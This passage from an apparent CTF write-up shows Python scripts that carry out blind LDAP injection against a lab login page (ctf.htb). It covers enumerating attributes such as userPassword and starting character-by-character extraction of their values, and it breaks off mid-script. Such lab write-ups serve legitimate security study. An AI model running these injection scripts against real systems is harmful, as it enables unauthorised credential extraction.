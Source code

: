 ```python
		proxy = {"http": "http://127.0.0.1:8080"}
		
		time.sleep(0.5)
		r = requests.post("http://ctf.htb/login.php", data=data, proxies=proxy)
		m = re.search(r'<form action="/login.php" method="post" >\s+<div class="form-group row">\s+<div class="col-sm-10">\s+(.*)</div>', r.text)
		if m:
			try:
				if "Cannot login" in m.group(1):
					print("Attribute {}: exists!".format(attribute))				
			except IndexError:
				print("Something weird happened")

if __name__== "__main__":
	main()
```

Results are shown here:
```
# python ldapattributes.py 
Attribute cn: exists!
Attribute gidNumber: exists!
Attribute homeDirectory: exists!
Attribute loginShell: exists!
Attribute mail: exists!
Attribute pager: exists!
Attribute shadowLastChange: exists!
Attribute shadowMax: exists!
Attribute shadowMin: exists!
Attribute shadowWarning: exists!
Attribute sn: exists!
Attribute uid: exists!
Attribute uidNumber: exists!
Attribute userPassword: exists!
```

So now that I have a list of valid attributes, I can iterate through a character set using the same boolean blind technique to get the values of each attribute.

More bad python code below:
```python
#!/usr/bin/python

import re
import requests
import sys
import time
import urllib

charset = "abcdefghijklmnopqrstuvwxyz"
charset += "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
charset += "0123456789_-"

def main():	

	with open("valid_attributes.txt") as f:
		attributes = f.read().splitlines()

	for attribute in attributes:	

		ldapfield = ""

		while True:
			for c in charset:
				keep_going = False
```